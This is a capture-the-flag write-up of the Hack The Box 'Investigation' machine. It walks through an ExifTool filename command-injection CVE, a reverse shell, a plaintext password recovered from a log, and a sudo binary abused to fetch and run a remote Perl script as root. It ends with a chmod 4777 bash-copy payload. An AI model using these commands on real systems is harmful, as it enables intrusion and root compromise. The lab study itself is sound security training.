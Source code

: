 Hackthebox -investigation

Starting with initial Nmap port scan
```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
```
Also i did a full port scan 65535 but we can't find anything

## Services
eforenzics.htb
Tech stack 'php' we can see that from upload function which is using upload.php file.
once we upload a jpg file it use exiftool to check images metadata and show the result in a txt file.
check the exiftool for anypublic exploit we found a cve affected verson '12.37'.

##  CVE-2022-23935
Overview

Exiftool versions < 12.38 are vulnerable to Command Injection through a crafted filename. If the filename passed to exiftool ends with a pipe character | and exists on the filesystem, then the file will be treated as a pipe and executed as an OS 
command.

Referance : [https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429) 
exploit : [https://github.com/dpbe32/CVE-2022-23935-PoC-Exploit/blob/main/exploit.sh](https://github.com/dpbe32/CVE-2022-23935-PoC-Exploit/blob/main/exploit.sh)

### Got a reverse shell as www-data

found a '.msg' file from /usr/local/investigation
Copied that file to our local machine and extract the content using a command line tool
Tool link : [ https://github.com/TeamMsgExtractor/msg-extractor]( https://github.com/TeamMsgExtractor/msg-extractor)
Using windows event log manager 
we found a logon failer event {eventid 462} which is leaking a password on UserName field
password: Def@ultf0r3nz!csPa$$

## ssh as smorton
smorton:Def@ultf0r3nz!csPa$$

## Privilege escalation
We can run a binary with sudo. Copyiny that binary to my local machine and decompiled it using ghidra.
### what's in the binary
* Checks if the number of command-line arguments passed is equal to 3. If not, it prints "Exiting..." and exits the program with status 0.

* Checks if the current user ID is 0 (root), which indicates that the user is running the program with superuser privileges. If not, it prints "Exiting..." and exits the program with status 0.

* Checks if the third command-line argument is equal to the string "lDnxUysaQn". If not, it prints "Exiting..." and exits the program with status 0.

* If all the above conditions are met, it prints "Running...".

* It then opens the file "lDnxUysaQn" in write binary mode, creates a CURL session, sets several options for the CURL session, including the URL to be downloaded and the file stream to write to.

* It performs the CURL transfer and checks if it was successful. If it was successful, it creates a system command to execute a Perl script with the name "lDnxUysaQn", closes the file stream and the CURL session, and sets the effective user ID back to root. Finally, it removes the file "lDnxUysaQn".

* If the CURL transfer was not successful, it prints "Exiting..." and exits the program with status 0.

What we can do is create a perl file with perl system call and hosted in a python server.
once we run the binary with sudo it's call our file and copy our content to the file and execute our command as root.

```bash
sudo ./binary http://tun0_Ip/shell.pl lDnxUysaQn
```
## payload 
```bash
cp /bin/bash /tmp/elf1337; chmod 4777 /tmp/elf1337
```

